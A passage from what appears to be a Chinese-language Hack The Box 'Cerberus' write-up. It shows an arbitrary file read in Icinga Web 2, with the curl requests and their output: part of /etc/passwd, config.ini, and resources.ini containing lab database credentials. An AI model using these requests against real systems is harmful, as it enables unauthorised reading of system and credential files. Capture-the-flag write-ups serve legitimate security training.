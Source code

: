 ```shell
nagios:x:110:118::/var/lib/nagios:/usr/sbin/nologin
redis:x:111:119::/var/lib/redis:/usr/sbin/nologin
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
icingadb:x:999:999::/etc/icingadb:/sbin/nologin
* Connection #0 to host icinga.cerberus.local left intact
```

好，任意文件读取是成功的

文章中说道可以读取相关的配置文件

![](https://i.328888.xyz/2023/04/09/icOEJ5.png)

1. config.ini

```shell
~/Hackthebox-writeups/Hackthebox-Cerberus ------------------------ 13:57:00
> sudo curl 'http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/config.ini'
[global]
show_stacktraces = "1"
show_application_state_messages = "1"
config_backend = "db"
config_resource = "icingaweb2"
module_path = "/usr/share/icingaweb2/modules/"

[logging]
log = "syslog"
level = "ERROR"
application = "icingaweb2"
facility = "user"

[themes]

[authentication]
```

2. resources.ini

```shell
~/Hackthebox-writeups/Hackthebox-Cerberus --------------------- 4s 13:57:04
> sudo curl 'http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/resources.ini'
[icingaweb2]
type = "db"
db = "mysql"
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "IcingaWebPassword2023"
use_ssl = "0"
```

3. roles.ini
